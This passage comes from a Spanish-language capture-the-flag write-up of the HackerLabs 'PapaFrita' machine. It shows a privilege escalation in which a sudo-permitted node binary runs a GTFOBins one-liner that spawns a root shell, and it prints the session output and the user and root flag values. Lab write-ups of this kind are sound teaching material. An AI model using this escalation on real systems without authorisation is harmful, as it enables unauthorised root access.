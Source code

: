 Obervamos que se puede ejecutar `/usr/bin/node` sin permisos de root. Ahora tenemos que buscar algún binario con este comando que nos de los privilegios de root.

Para esto, nos ayudaremos de la siempre confiable [Gtfobins](https://gtfobins.github.io/gtfobins/node/ "gtfobins"), donde buscaremos lo que necesitamos en su amplio catálogo de binarios. Este excelente sitio web nos proporciona una variedad de binarios útiles para nuestras necesidades.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/2.PapaFrita/5.jpg?raw=true "gtfobins")


Encontramos lo que necesitamos, ahora vayamos a probar si nos proporciona lo privilegios de root.

```bash
abuela@papafrita:~$ sudo /usr/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
# pwd
/home/abuela
# id
uid=0(root) gid=0(root) grupos=0(root)
# whoami
root
#
```

Bien, somos root.

## 5.2 Obteniendo las Flags

Ahora que somos root buscamos las flag correspondentes para culminar este reto.

* Primero vamos con la de user.txt

```bash
# ls
user.txt
# cat user.txt	
f3e431cd1129e9879e482fcb2cc151e8
# 
```

* Ahora vamos con la de root.txt

```
# cd /
# ls
bin  boot  dev	etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt	proc  root  
# cd root
# ls
root.txt
# cat root.txt
7e69e6849ca2dac8fc1e4cdf9f7b915f
# 
```
## 6. Recomendaciones y Conclusiones
